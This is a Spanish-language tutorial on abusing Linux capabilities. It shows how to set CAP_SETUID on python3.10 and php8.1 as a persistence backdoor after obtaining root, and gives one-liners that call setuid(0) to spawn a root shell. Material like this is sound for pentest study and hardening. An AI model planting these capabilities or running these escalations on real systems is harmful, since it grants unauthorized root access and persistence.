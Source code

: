 Si bien hasta el momento podemos otorgar *permisos privilegiados* a un usuario ya sea con *SUID* o con *sudo*, pero tambien existen las *capabilities*.

¿Que son?
Son capacidades que se le puede asignar a un binario, existen varios [tipos de cabalilities](https://man7.org/linux/man-pages/man7/capabilities.7.html).
Como por ejemplo la capabilitie *CAP_SETUID* que hace referencia a la manipulacion de UID de los procesos.

Ahora supongamos que obtubimos acceso a un sistema con root, y se desea dejar alguna accion que nos permita escalar privilegios facilmente en caso de desconectarnos.

Vamos a asignar un capabilitie de tipo *CAP_SETUID* a algun binario.

``` bash
❯ setcap cap_setuid+ep /usr/bin/python3.10

❯ getcap /usr/bin/python3.10
/usr/bin/python3.10 cap_setuid=ep
```

Una vez hecho esto podemos buscar los binarios que tengan alguna capabilitie

	getcap -r / 2>/dev/null

Este tipo de capabilitie nos permite ejecutar comando como otro usuario, revelando su uid, cada usuario lo tiene, lo puede vizualizar con `id`, si bien sabemos el uid de root es 0.

``` bash
❯ getcap -r / 2>/dev/null
/usr/bin/python3.10 cap_setuid=ep

❯ ls -l /usr/bin/python3.10
.rwxr-xr-x root root 5.6 MB Thu Sep  8 09:34:29 2022  /usr/bin/python3.10
```

Como se puede observar no tiene permiso SUID pero si una capabilitie, ahora como hacemos uso de esta

``` bash
❯ python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
bash-5.2# whoami
root
```

*Remover una capabilitie*

	setcap -r /usr/bin/python3.10

Igualemente en [GTFobins ](https://gtfobins.github.io/#+capabilities) podemos encontrar algunas capabilities las cuales podemos utilizar para escalar privilegios.


*Explotacion con php*
``` bash
❯ setcap cap_setuid+ep /usr/bin/php8.1

❯ getcap /usr/bin/php8.1
/usr/bin/php8.1 cap_setuid=ep
```

``` bash
bash-5.2$ php -r "posix_setuid(0); system('/bin/bash');"
bash-5.2# whoami
root
```